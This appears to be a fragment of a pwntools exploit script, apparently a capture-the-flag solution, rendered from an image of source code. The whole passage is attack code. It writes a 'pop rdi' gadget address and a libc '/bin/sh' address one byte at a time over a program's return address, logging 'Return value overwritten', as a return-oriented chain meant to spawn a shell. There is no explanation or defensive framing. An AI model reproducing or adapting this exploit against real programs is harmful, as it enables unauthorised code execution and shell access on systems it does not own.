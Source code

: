 
    r.sendline(str(ord(pop_rdi[1])))
    r.sendline(str(offset_x+1))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))

    r.sendline(str(ord(pop_rdi[2])))
    r.sendline(str(offset_x+2))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))

    r.sendline(str(ord(pop_rdi[3])))
    r.sendline(str(offset_x+3))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))

    r.sendline(str(ord(pop_rdi[4])))
    r.sendline(str(offset_x+4))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))

    r.sendline(str(ord(pop_rdi[5])))
    r.sendline(str(offset_x+5))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))
    log.info("Return value overwritten")


    libc_binsh = p64(libc_binsh)
    r.sendline(str(ord(libc_binsh[0])))
    r.sendline(str(offset_x+8))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))

    r.sendline(str(ord(libc_binsh[1])))
    r.sendline(str(offset_x+1+8))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))

    r.sendline(str(ord(libc_binsh[2])))
    r.sendline(str(offset_x+2+8))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))

    r.sendline(str(ord(libc_binsh[3])))
    r.sendline(str(offset_x+3+8))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))

    r.sendline(str(ord(libc_binsh[4])))
    r.sendline(str(offset_x+4+8))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))

    r.sendline(str(ord(libc_binsh[5])))
    r.sendline(str(offset_x+5+8))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))